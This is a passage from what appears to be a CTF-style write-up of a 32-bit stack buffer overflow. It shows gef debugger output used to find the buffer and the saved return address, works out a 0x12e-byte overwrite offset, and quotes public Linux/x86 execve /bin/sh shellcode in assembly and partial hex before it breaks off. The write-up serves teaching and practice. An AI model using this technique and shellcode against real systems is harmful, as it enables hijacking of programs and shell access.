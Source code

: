 ```asm
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x565555da in echo ()
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rwx
  0x56558160 - 0x5655816a  →   "AAAAAAAA\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcfbe - 0xffffcfc6  →   "AAAAAAAA" 
gef➤  

```

So we can see the buffer on stack start from ```0xffffcfbe``` address, Let's find the ```eip``` address using ```info frame```:
```asm
gef➤  info frame
Stack level 0, frame at 0xffffd0f0:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffd110
 Arglist at 0xffffd0e8, args: 
 Locals at 0xffffd0e8, Previous frame's sp is 0xffffd0f0
 Saved registers:
  ebx at 0xffffd0e4, ebp at 0xffffd0e8, eip at 0xffffd0ec
gef➤ 
```

So ```eip``` on ```0xffffd0ec``` so the offset is ```0xffffd0ec-0xffffcfbe=0x12e```.

It's mean we need to fill ```0x12e``` bytes to override the return address on ```eip``` register to run our shell code.

We can get shell code from [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php):

```c
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
```